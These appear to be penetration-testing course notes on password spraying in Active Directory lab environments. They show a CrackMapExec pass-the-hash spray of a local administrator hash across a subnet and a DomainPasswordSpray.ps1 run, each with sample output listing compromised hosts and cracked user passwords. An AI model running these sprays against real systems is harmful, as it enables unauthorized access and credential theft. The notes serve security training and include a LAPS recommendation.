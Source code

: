 
## Local Administrator Password Reuse
- Password spraying can target local admin accounts across multiple hosts.
- Password reuse is common due to gold images or poor management.
- CrackMapExec can spray NTLM hashes with the `--local-auth` flag to avoid domain lockouts.

**Command:**
```bash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
**Sample Output:**
```
SMB 172.16.5.50 445 ACADEMY-EA-MX01 [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB 172.16.5.25 445 ACADEMY-EA-MS01 [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

**Note:**
- This technique is noisy and not suitable for stealthy assessments.
- Recommend using Microsoft LAPS to enforce unique local admin passwords per host. 

# Internal Password Spraying – from Windows

## Overview
- From a domain-joined Windows host, password spraying can be performed using tools like DomainPasswordSpray or Kerbrute.
- DomainPasswordSpray can auto-enumerate users, check password policy, and avoid lockouts by excluding risky accounts.
- Useful for on-site, VM, or initial foothold scenarios.

---

## Using DomainPasswordSpray.ps1
**Example:**
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
**Sample Output:**
```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] Password spraying has begun with  1  passwords
[*] Now trying password Welcome1 against 2923 users.
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1
```
- Kerbrute can also be used on Windows for user enumeration and spraying.

---